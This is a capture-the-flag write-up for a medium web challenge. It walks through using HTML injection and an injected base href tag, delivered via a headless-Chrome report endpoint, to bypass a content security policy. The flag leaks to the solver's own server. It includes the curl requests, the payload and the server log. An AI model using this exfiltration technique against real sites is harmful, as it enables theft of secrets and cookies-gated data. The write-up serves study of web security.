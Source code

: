 # Stage 5: flagfriendly - web - medium

## Challenge

Flags for friendly Kuchenblech http://45.76.92.221:8070/

## Solution

The main page is vulnerable to html injection. Because of the content security
policy of the page, an injection of javascript is not allowed. Also loading other
files like CSS are not allowed, only images are allowed from every source.

There is also an endpoint /report?url=<SOME_URL> that will call the given url
with a headless chrome. The result is not returned, only the string "done" if
the request worked.

The flag is hidden in the python webserver and if the given cookie "flag" is equal to
saved flag, the server will use the flag as the path to the GIF on the site.

So if we request the index page via the /report endpoint, the flag is in the HTML
source code, but not showed. So the following request contains the flag, but is
not shown:

```
root@blackbox:# curl -v "http://45.76.92.221:8070/report?url=http://45.76.92.221:8070/?title=OurOwnTitle"
*   Trying 45.76.92.221...
* TCP_NODELAY set
* Connected to 45.76.92.221 (45.76.92.221) port 8070 (#0)
> GET /report?url=http://45.76.92.221:8070/ HTTP/1.1
> Host: 45.76.92.221:8070
> User-Agent: curl/7.62.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: gunicorn/20.0.4
< Date: Sun, 29 Dec 2019 20:30:10 GMT
< Connection: close
< Content-Type: text/html; charset=utf-8
< Content-Length: 4
<
* Closing connection 0
done
```

As we can inject html code with the title parameter, we can inject a special html
element in the header to "redirect" the relative loading of the gif to our own server.
To to this, lets assume our server runs under http://151.217.238.34:8080. So lets
inject the following html pice:

```
</title><base href="http://151.217.238.34:8080">
```

The final request:

```
curl -v "http://45.76.92.221:8070/report?url=http://45.76.92.221:8070/?title=%3C/title%3E%3Cbase%20href=%22http://151.217.238.34:8080%22%3E"
```

In our server log (done with echoserver.py), we see the request from the headless
chrome containing the flag:

```
----- Request Start ----->

/junior-CSP_THE_C_IS_FOR_CYBER.gif
Host: 151.217.238.34:8080
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://45.76.92.221:8070/?title=%3C/title%3E%3Cbase%20href=%22http://151.217.238.34:8080%22%3E
Accept-Encoding: gzip, deflate

```
